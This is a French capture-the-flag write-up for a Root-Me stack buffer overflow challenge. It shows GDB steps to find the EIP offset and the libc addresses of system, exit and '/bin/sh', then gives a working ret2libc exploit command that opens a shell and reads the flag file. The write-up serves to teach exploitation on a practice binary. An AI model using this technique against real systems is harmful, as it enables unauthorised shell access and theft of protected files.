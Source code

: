 ```yaml
---
title: "ELF x86 - Stack buffer overflow basic 6"
description: "WriteUp - Medium"
pubDate: "May 12 2024"
image: /image/image4.jpg
categories:
  - rootme
tags:
  - app-system
  - buffer-overflow
  - stack
---
```


D'après l'intitulé du défi, il semble s'agir d'un buffer overflow ret2libc.
Nous ne pouvons pas afficher l'adresse du buffer dans GDB car les symboles sont désactivés. Par conséquent, nous devons déterminer combien d'octets sont nécessaires pour écraser l'adresse de l'Instruction Pointer (EIP), sachant que notre tampon fait 20 octets. L'écrasement de l'EIP se produit après 32 octets.

```bash
app-systeme-ch33@challenge02:~$ ./ch33 $(python -c "print 'A'*31")
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
app-systeme-ch33@challenge02:~$ ./ch33 $(python -c "print 'A'*32")
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Erreur de segmentation
```
À ce stade la, il me manque l'adresse de system, l'adresse de "/bin/sh" et l'adresse de exit afin de réaliser le ret2libc proprement, pour ce faire j'utilise GDB.\\
On peut facilement trouver les adresses de `system` et de `exit` de la manière suivante :

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e67310 <system>
```

```bash
(gdb) print exit
$2 = {<text variable, no debug info>} 0xb7e5a260 <exit>
```

Ensuite, en utilisant la commande info files dans GDB, je trouve la section .rodata, ce qui me permet par la suite de trouver l'adresse de la chaîne "/bin/sh". 

```bash
0xb7f73040 - 0xb7f94b04 
    is .rodata in /libold/i386-linux-gnu/libc.so.6
(gdb) find 0xb7f73040, 0xb7f94b04, "/bin/sh"
0xb7f89d4c
```

Enfin, je peux créer l'exploit suivant avec la structure : padding + adresse de system + adresse de exit + adresse de "/bin/sh" + argument pour exit.

```bash
./ch33 $(python -c "print 'A'*32 + '\x10\x73\xe6\xb7' + \
    '\x60\xa2\xe5\xb7' + '\x4c\x9d\xf8\xb7' + \
        '\x01\x01\x01\x01'")
$ cat .passwd             
```
